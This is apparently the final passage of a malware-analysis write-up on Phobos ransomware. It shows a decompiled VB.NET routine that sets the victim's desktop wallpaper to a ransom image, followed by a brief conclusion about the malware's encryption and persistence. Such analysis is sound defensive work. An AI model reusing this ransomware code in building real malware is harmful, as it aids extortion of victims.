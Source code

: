 List of file extensions that will be affected by the ransomware

### SetWallpaper

```vbnet
Public Shared Sub SetWallpaper(base64 As String)
	If base64 <> "" Then
		Try
			Dim text As String = Path.GetTempPath() + Program.RandomString(9) + ".jpg"
			File.WriteAllBytes(text, Convert.FromBase64String(base64))
			Program.SystemParametersInfo(20UI, 0UI, text, 3UI)
		Catch
		End Try
	End If
End Sub
```
This function changes the computer's wallpaper. It takes a base64-encoded image, converts it into a JPEG file, and sets it as the new wallpaper.

![wallpaper](/images/phobos/phobos-08.png)

### Conclusion

Phobos Ransomware is an advanced malware that encrypts user files, demanding a Bitcoin ransom for recovery. It employs a range of techniques for spreading, encryption, and system manipulation, targeting a wide variety of file types and taking measures to ensure its persistence and evasion.
